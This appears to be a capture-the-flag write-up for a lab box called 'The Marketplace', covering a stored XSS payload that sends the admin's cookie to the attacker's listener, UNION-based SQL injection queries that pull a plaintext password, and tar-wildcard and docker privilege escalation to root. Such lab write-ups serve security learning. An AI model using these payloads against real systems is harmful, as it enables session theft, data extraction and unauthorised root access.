# The Marketplace

This challenge exploits XSS, SQL injection and linux priv escalation.

## Reconnaissance

First to do some reconnaissance on the box, starting with nmap. Can be seen that there are 2 ports open that we can use namely http and ssh ports.



Going to the website we get greeted to a home page with home, log in and sign up buttons along with some products already ip for sale.

Trying a couple of basic log ins like admin admin or admin password etc lead to nothing. We can however create an account. Now I have a messages tab at the top.

Looking at listings they can be reported to admins.



Interesting that an admin will visit it.

I can also create a new listing.

## Flag 1

[Listing](./NewListing.PNG)

Some textboxes, can we XSS? I'll test with `<script>alert('xss');</script>`.

[xss](./xss.PNG)

Great! Now we can try and get hold of some admin access to the website using cookie grabbing.

Personally I didn't know how to do this from the start so I did some googling about and found an article  which does basically what I want to do. This is how I amended it to this.

On the article there is the following xss script:

```html
<script type=“text/javascript”>document.location=“http://192.168.0.48:5000/?c=“+document.cookie;</script>
```

This essentially forwards the cookie to the webserver set up on that ip and port. Now I can just set up a simple http server with python listening to everything and just change the port to 8000 and the IP to my THM VPN IP.

Can set up the python server using `python3 -m http.server` and this will just capture anything coming through on you VPN IP on port 8000.

We then just create a listing with the XSS and then report it so the admin looks at it and we should have the admin cookie. Notice when you create the listing the page is now your directory, this doesnt help us so we need to know how it is being reported. If you just hover over another report listing we can see its in the format `http://<ip>/report/3` with 3 being the 3rd product on them name. well just amend to your XSS product number and report and watch the admin cookie come through.

Then just change your cookie and refresh, the first flag on the admin panel!

## Flag 2

Well now we have admin, before the cookie expires we need to do some looking about. Notice that on the page we are michael but we can see jake is also an admin. (Knowing the nature of CTFS we probably wana get into jakes account as we know ssh port is open).


You can actually click on those boxes. I noticed that the URL changed and it seemed to be searching for information so I added something to the end of the URL and got an error. Googling the error revealed it was a MySQL error. Nice so from here can assume we need to SQL inject.

Be aware if you trigger a bad gateway your cookie expires and you'll need to grab another.

Now I noticed adding ` password` didn't kick me out but let me continue and when I changed the number to an account that doesnt exist I get an SQL error. Now by looking at the page I can see 4 different things being displayed. User ID or number, name, ID again and if it has admin so we know 4 fields being show so in order to union ill pad 3 other results.

One useful thing to know in MySQL is the `GROUP_CONCAT()` function which groups all data onto one line which is greate for output. . Same with `database()` which returns the database name.



Database name is marketplace.

```sql
UNION SELECT 1, GROUP_CONCAT(table_name), 3 ,4 FROM information_schema.tables WHERE table_schema='marketplace'
```
Produces:



so now we have table names.

Lets have a peak at Users as this might contain some useful information for the ssh.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='users'
```


Ok so look at passwords



Hashes :( probs wont beable to crack them. Looking back the messages table seemed interesting.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='messages'
```



lets look at messages content:



aha a password in plaintext. Lets ssh jake.



The next flag!

## Flag 3

This one is a little more involved but even still, all can be found using GTFO bins.

First of all i ran the standard find all SUID command

```shell
find / -perm /6000 -type f -executable 2>/dev/null
```

but this lead to nothing. Then I looked at the sudo using `Sudo -l` and saw this



so michael can run backup.sh as sudo. Interesting.

Looking into backup.sh we see

```sh
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So this uses tar to archive files. Interesting. Looking at GTFO they have a tar section and it has a sudo exploit.

Just to make sure michael can run it I ran `chmod 777 backup.tar` so he can backup everything in theat directory.

The just create some files named `--checkpoint=1` and `--checkpoint-action=exec=sh` and this can be done by either using touch or vim. Just run the backup.sh and you'll have michael shell.

Make sure you run it as michael using `sudo -u michael /opt/backups/backup.sh` and you'll spawn the shell.



Now we have michael we can get root as we need to access root folder.

Doing an ID check we see this.



hmmmm docker usually isn't there, again looking on GTFO bins it has a command u can just paste in and root!



Just navigate to your root folder and collect your flag :)
